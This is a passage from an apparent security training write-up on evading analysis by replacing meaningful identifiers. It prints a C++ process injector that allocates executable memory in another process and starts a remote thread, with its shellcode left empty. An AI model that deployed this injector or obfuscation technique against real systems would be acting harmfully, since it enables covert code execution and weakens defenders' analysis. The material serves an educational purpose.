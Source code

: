 
### Object Names

Object names offer some of the most significant insight into a program's functionality and can reveal the exact purpose of a function. An analyst can still deconstruct the purpose of a function from its behavior, but this is much harder if there is no context to the function.

The importance of literal object names may change depending on if the language is **compiled**  or **interpreted**. If an interpreted language such as **Python** or **PowerShell** is used, then all objects matter and must be modified. If a compiled language such as **C** or **C#** is used, only objects appearing in the strings are generally significant. An object may appear in the strings by any function that produces an **IO operation**.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **meaningless identifiers** method.

Below we will observe two basic examples of replacing meaningful identifiers for both an interpreted and compiled language.

---

As an example of a compiled language, we can observe a process injector written in C++ that reports its status to the command line.

```c
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```
